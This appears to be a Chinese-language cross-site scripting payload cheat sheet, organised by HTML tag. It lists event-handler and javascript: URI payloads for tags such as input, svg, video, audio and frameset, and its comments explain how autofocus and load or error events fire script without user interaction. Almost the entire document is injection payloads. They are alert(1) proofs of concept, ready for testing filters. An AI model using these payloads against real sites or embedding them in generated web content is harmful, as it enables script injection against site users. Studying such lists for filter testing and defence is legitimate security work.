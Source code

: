 ```html
<body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
```
## var标签
```html
# 事件触发，一般是用不需交互的事件比如鼠标移动等
<var onmousemove=alert(1)>M</var>
```
## div标签
```html
# 事件触发
<div/onclick='alert(1)'>X</div>
```
## input标签
```html
和button一样通过autofocus可以达到无需交互即可弹窗的效果。
<input onfocus=javascript:alert(1) autofocus>
<input onblur=javascript:alert(1) autofocus><input autofocus>
```
## select标签
```html
<select onfocus=javascript:alert(1) autofocus>
```
## textarea标签
```html
<textarea onfocus=javascript:alert(1) autofocus>
```
## keygen标签
```html
<keygen onfocus=javascript:alert(1) autofocus>
```
## frameset标签
```html
<FRAMESET><FRAME SRC="javascript:alert(1);"></FRAMESET>
```
## svg标签
```html
<svg onload="javascript:alert(1)" xmlns="http://www.w3.org/2000/svg"></svg>
<svg xmlns="http://www.w3.org/2000/svg"><g onload="javascript:alert(1)"></g></svg>
```
## math标签
```html
<math href="javascript:javascript:alert(1)">CLICKME</math>
<math><y/xlink:href=javascript:alert(51)>test1
```
## video标签
```html
<video><source onerror="alert(1)">
<video src=x onerror=alert(48)>
```
## audio标签
```html
<audio src=x onerror=alert(47)>
```